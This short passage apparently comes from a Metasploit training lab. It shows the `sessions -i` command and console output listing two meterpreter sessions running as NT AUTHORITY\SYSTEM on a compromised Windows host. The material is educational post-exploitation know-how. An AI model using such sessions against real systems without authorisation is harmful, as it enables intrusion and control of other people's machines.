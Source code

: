 

To interact with any session,  you can use the `sessions -i` command followed by the desired session number.

​            Interacting with sessions        

```shell-session
           msf5 > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf5 > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
        
```